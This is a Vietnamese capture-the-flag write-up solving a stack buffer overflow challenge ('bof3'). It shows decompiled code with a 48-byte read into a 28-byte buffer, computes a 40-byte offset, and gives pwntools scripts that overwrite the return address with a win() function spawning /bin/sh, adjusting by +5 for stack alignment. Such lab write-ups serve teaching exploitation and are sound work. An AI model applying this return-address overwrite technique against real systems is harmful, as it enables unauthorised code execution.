









**1. Tìm lỗi**

Dùng lệnh 'file' để kiểm tra



Là file 64bit nên mở bằng IDA64 ta có source như sau:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[28]; // [rsp+0h] [rbp-20h] BYREF
  int v5; // [rsp+1Ch] [rbp-4h]

  v5 = 0;
  init(argc, argv, envp);
  printf("> ");
  v5 = read(0, buf, 0x30uLL);
  if ( buf[v5 - 1] == 10 )
    buf[v5 - 1] = 0;
  return 0;
}
```

Ngoài ra còn có thêm hàm win

```
int win()
{
  return system("/bin/sh");
}
```

Ta thấy biến buf được khai báo 28 byte nhưng cho phép nhập 0x30 = 48 byte nên nghĩ tới lỗi bof

Dùng lệnh 'checksec' để kiểm tra ta có:



Ta thấy canary đang ở trạng thái disabled nên có lỗi bof

**2. Ý tưởng**

Tận dụng lỗi bof để nhập tràn biến buf đến ret rồi chèn địa chỉ hàm win vào

**3. Viết script**



Ta thấy địa chỉ biến buf là: rbp - 0x20 nên khoảng cách từ biến buf đển ret là: 0x20 + 0x8 = 40



Ta có địa chỉ hàm win là: 0x401249

Ta có script như sau: 

```
from pwn import *

r = process("./bof3")

win = 0x401249
payload = b'a'*40 + p64(win)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**



Ta thấy đã có lỗi nên debug để kiểm tra



Ta có stack sau khi gửi payload



Ta thấy địa chỉ ret không chia hết cho 16 nên chúng ta thử chèn địa chỉ lệnh return trong hàm win



Ta thấy địa chỉ của lệnh return bắt đầu từ win + 5 nên có script như sau:

```
from pwn import *

r = process("./bof3")

win = 0x401249
payload = b'a'*40 + p64(win+5)
r.sendline(payload)
r.interactive()
```

--> Lấy flag


